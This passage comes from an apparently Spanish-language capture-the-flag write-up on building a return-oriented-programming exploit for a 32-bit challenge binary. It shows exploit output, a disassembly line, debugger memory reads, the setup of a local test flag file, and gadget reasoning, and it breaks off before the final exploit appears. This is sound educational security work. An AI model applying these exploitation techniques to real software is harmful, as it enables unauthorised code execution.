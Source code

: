 Y eso nos devuelve:

```
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ python3 exploit.py
[*] '/home/reisraff/workdir/challs/port-65144/port-65144'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process '/home/reisraff/workdir/challs/port-65144/port-65144': pid 2347
=========================
what the process returned
Enter your buffer: gotcha func1
gotcha func2
```

Podría suponer que function2 tiene el mismo comportamiento que cambiar el valor de la variable en `.bss` debido a esta declaración:

```raw
80492d7:  c6 80 36 00 00 00 01  mov    BYTE PTR [eax+0x36],0x1
```

Y finalmente hacemos lo mismo para la función que tiene `open` con `/code/ROP-me/flag.txt`, pero para que este próximo paso funcione tenemos que tener este archivo con la ruta exacta en nuestra máquina, entonces crearé:

```raw
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ sudo mkdir -p /code/ROP-me/
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ echo "FLAG TEST" | sudo tee /code/ROP-me/flag.txt
FLAG TEST
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ cat /code/ROP-me/flag.txt
FLAG TEST
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ sudo chmod 777 -R /code
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ ls /code/ROP-me/flag.txt  -l
-rwxrwxrwx 1 root root 10 Aug 31 22:08 /code/ROP-me/flag.txt
```

Ahora pasamos al siguiente paso, recordemos cómo era la función:

<center><img src="post-assets/port-65144-ghidra-1.png" width="732" alt="ghidra" /></center>

Bien, las dos primeras condiciones creo que pasarán, y la última depende del valor de param1, que debe ser un valor que, sustraendo `0x01` de esto, debe ser igual a `0x01`. Por qué `0x01` porque acabo de imprimir:

```
gef➤  x/x 0x0804c035
0x804c035:  0x00000001
```

¿Qué valor que sustraendo 1 de él es igual a 1? ¡Este lo dejaré encontrar solo!

Ahora que tenemos 3 argumentos, necesitaremos un `pop; pop; pop; ret;`, por lo que el exploit final es:
